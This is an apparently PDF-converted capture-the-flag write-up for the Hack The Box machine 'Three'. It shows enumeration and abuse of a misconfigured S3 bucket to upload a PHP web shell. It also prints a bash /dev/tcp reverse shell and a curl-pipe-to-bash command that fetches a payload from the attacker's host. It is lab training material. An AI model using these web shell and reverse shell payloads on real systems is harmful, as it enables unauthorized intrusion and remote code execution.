









# Writeups

**Source PDF:** `raw-logs/document.pdf`

## TL;DR

Three Write-up Prepared by: dotguy Introduction

## Extracted walkthrough

### Page 1

```
Three Write-up

Prepared by: dotguy
Introduction

Organizations of every type, size, and industry are using the cloud for a wide variety of use cases, such as 
data backup, storage, disaster recovery, email, virtual desktops, software development and testing, etc. 
Thus, it is crucial to have a secure configuration for a company's cloud infrastructure in order to protect 
against any attacks. Three is a Linux box that includes a website, which utilizes an AWS S3 bucket as its 
cloud-storage device. We can exploit this poorly configured S3 bucket and upload a reverse shell on it. We 
can then visit the corresponding URL to execute the reverse file and ultimately retrieve the flag.
Note: Please allow the machine a few minutes to properly boot up after spawning as localstack  
needs a few minutes to load.
Enumeration

To start with, we will check for open ports using a Nmap scan:
The scan shows that two ports are open - port 80  (HTTP) and port 22  (SSH). Let's enumerate port 80  
using our web browser.
sudo nmap -sV 10.129.227.248
```




### Page 2

```
We can see a static webpage that features a concert ticket booking section but it isn't functional. Reviewing 
the webpage's source code reveals that the "Contact" form submits requests to a PHP page, 
/action_page.php , indicating that the server's backend for this web application is built using PHP.
Additionally, visiting /index.php  takes us to the landing page of the web application, further confirming 
that the server is running PHP.
The "Contact" section also has an email address which has the domain thetoppers.htb .
Let's add an entry for thetoppers.htb  in the /etc/hosts  file with the corresponding IP address to be able 
to access this domain in our browser.
```






### Page 3

```
The /etc/hosts  file is used to resolve a hostname into an IP address. By default, the /etc/hosts  file is 
queried before the DNS server for hostname resolution thus we will need to add an entry in the 
/etc/hosts  file for this domain to enable the browser to resolve the address for thetoppers.htb .
Sub-domain enumeration

What is a subdomain?

A subdomain name is a piece of additional information added to the beginning of a website’s domain name. 
It allows websites to separate and organize content for a specific function — such as a blog or an online 
store — from the rest of your website.
For example, if we visit hackthebox.com we can access the main website. Or, we can visit 
ctf.hackthebox.com to access the section of the website that is used for CTFs. In this case, ctf  is the 
subdomain, hackthebox  is the primary domain and com  is the top-level domain (TLD). Although the URL 
changes slightly, you’re still on HTB's website, under HTB's domain.
Often, different subdomains will have different IP addresses, so when our system goes to look up the 
subdomain, it gets the address of the server that handles that application. It is also possible to have one 
server handle multiple subdomains. This is accomplished via "host-based routing", or "virtual host routing", 
where the server uses the Host header in the HTTP request to determine which application is meant to 
handle the request.
As we have the domain thetoppers.htb , let us enumerate for any other sub-domains that may be present 
on the same server. There are different enumeration tools available for this purpose like gobuster , wfuzz , 
feroxbuster  etc. As of this writeup, we will be using gobuster  for sub-domain enumeration using the 
following command.
We will be using the following flags for gobuster .
Note: If using Gobuster version 3.2.0  and above we also have to add the --append-domain  flag to our 
command so that the enumeration takes into account the known vHost ( thetoppers.htb ) and appends it 
to the words found in the wordlist ( word.thetoppers.htb ).
GoBuster  will send out requests with a host header that looks like the following for each word in the 
wordlist:
It will note the default response, and show any that return something different.
echo "10.129.227.248  thetoppers.htb" | sudo tee -a /etc/hosts
gobuster vhost -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 
http://thetoppers.htb
vhost : Uses VHOST for brute-forcing
-w    : Path to the wordlist
-u    : Specify the URL
Host: [word].thetoppers.htb
```


### Page 4

```
The gobuster  result shows that there exists a sub-domain called s3.thetoppers.htb . Let's also add an 
entry for this sub-domain in the /etc/hosts  file.
After we have added an entry for the domain to our hosts file let's visit  s3.thetoppers.htb  using a 
browser.
The webpage only contains the following JSON.
Note: If instead of JSON you get a Proxy Error, give the box a few minutes to 
properly boot.

What is an S3 bucket?

A quick Google search containing the keywords "s3 subdomain status running" returns this result stating 
that S3  is a cloud-based object storage service. It allows us to store things in containers called buckets. AWS 
S3 buckets have various use-cases including Backup and Storage, Media Hosting, Software Delivery, Static 
Website etc. The files stored in the Amazon S3 bucket are called S3 objects.
echo "10.129.227.248  s3.thetoppers.htb" | sudo tee -a /etc/hosts
{"status": "running"}
```






### Page 5

```
We can interact with this S3 bucket with the aid of the awscli  utility. It can be installed on Linux using the 
command apt install awscli .
First, we need to configure it using the following command.
We will be using an arbitrary value for all the fields, as sometimes the server is configured to not check 
authentication (still, it must be configured to something for aws  to work).
We can list all of the S3 buckets hosted by the server by using the ls  command.
We can also use the ls  command to list objects and common prefixes under the specified bucket.
aws configure
aws --endpoint=http://s3.thetoppers.htb s3 ls
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```




### Page 6

```
We see the files index.php , .htaccess  and a directory called images  in the specified bucket. It seems like 
this is the webroot of the website running on port 80 . So the Apache server is using this S3 bucket as 
storage.
awscli  has got another feature that allows us to copy files to a remote bucket. We already know that the 
website is using PHP. Thus, we can try uploading a PHP shell file to the S3  bucket and since it's uploaded to 
the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we 
will achieve remote code execution.
We can use the following PHP one-liner which uses the system()  function which takes the URL parameter 
cmd  as an input and executes it as a system command.
Let's create a PHP file to upload.
Then, we can upload this PHP shell to the thetoppers.htb  S3 bucket using the following command.
We can confirm that our shell is uploaded by navigating to http://thetoppers.htb/shell.php. Let us try 
executing the OS command id  using the URL parameter cmd .
The response from the server contains the output of the OS command id , which verified that we have code 
execution on the box. Thus, let us now try to obtain a reverse shell.
Through a reverse shell, we will trigger the remote host to connect back to our local machine's IP address 
on the specified listening port. We can obtain the tun0  IP address of our local machine using the following 
command.
<?php system($_GET["cmd"]); ?>
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
http://thetoppers.htb/shell.php?cmd=id
ifconfig
```




### Page 7

```
Let's get a reverse shell by creating a new file shell.sh  containing the following bash reverse shell payload 
which will connect back to our local machine on port 1337 .
We will start a ncat  listener on our local port 1337  using the following command.
Let's start a web server on our local machine on port 8000  and host this bash file. It is crucial to note here 
that this command for hosting the web server must be run from the directory which contains the reverse 
shell file. So, we must first traverse to the appropriate directory and then run the following command.
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
nc -nvlp 1337
python3 -m http.server 8000
```






### Page 8

```
We can use the curl  utility to fetch the bash reverse shell file from our local host and then pipe it to bash  
in order to execute it. Thus, let us visit the following URL containing the payload in the browser.
We receive a reverse shell on the corresponding listening port.
 The flag can be found at /var/www/flag.txt .
Congratulations, you have successfully completed Three.
 
 
http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash
cat /var/www/flag.txt
```


---

Generated by tools/convert_pdf_to_md.py — review & redact sensitive info before publishing.
